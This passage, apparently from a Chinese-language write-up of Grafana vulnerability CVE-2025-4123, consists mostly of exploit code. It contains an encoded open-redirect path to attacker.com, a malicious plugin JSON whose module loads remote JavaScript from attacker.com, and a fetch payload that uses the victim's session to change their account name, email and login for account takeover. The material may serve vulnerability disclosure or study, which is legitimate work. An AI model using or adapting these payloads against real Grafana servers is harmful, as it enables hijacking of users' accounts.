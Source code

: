   
  
因此，执行Open Redirect的路径进行URL编码和配置如下，然后配置恶意模块进行响应。  
  

```
/a/ ..%2f..%2f..%2fpublic%2f..%252f%255Cattacker.com%252f%253Fp%252f..%252f..%23/explore
```

  
  
  

```
{
    &#34;name&#34;: &#34;ExploitPluginReq&#34;,
    &#34;type&#34;: &#34;app&#34;,
    &#34;id&#34;: &#34;grafana-lokiexplore-app&#34;,
    &#34;enabled&#34;: true,
    &#34;pinned&#34;: true,
    &#34;autoEnabled&#34;: true,
    &#34;module&#34;: &#34;http://attacker.com/file?js=file&#34;,
    &#34;baseUrl&#34;: &#34;public/plugins/grafana-lokiexplore-app&#34;,
    &#34;info&#34;: {
        &#34;author&#34;: {...}
    }
    ...
}
```

  
> https://github.com/NightBloodz/CVE-2025-4123/blob/main/js.js  
  
  
当从模块**http://attacker.com/file?js=file**  
调用时，它会以更改密码的 js 进行响应并执行帐户接管。  
  

```
fetch(&#34;/api/user&#34;, {
  method: &#34;PUT&#34;,
  headers: {
    &#34;x-grafana-device-id&#34;: &#34;3b3353978aa55a04cd5b130d126adfee&#34;,
    &#34;User-Agent&#34;:
      &#34;Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36&#34;,
    Accept: &#34;application/json, text/plain, */*&#34;,
    &#34;Content-Type&#34;: &#34;application/json&#34;,
    &#34;x-grafana-org-id&#34;: &#34;1&#34;,
    &#34;Accept-Encoding&#34;: &#34;gzip, deflate&#34;,
    &#34;Accept-Language&#34;: &#34;en-US,en;q=0.9&#34;,
    // Note: 'Cookie' headers are restricted by browsers in JavaScript fetch
  },

  body: JSON.stringify({
    name: &#34;pwned&#34;,
    email: &#34;pwned@pwned.com&#34;,
    login: &#34;pwned&#34;,
  }),

  credentials: &#34;include&#34;, //if you want cookies like grafana_session to be sent
})
  .then((response) => response.json())
  .then((data) =>console.log(data))
  .catch((error) =>console.error(&#34;Error:&#34;, error));

alert(&#34;account pwned&#34;);
```
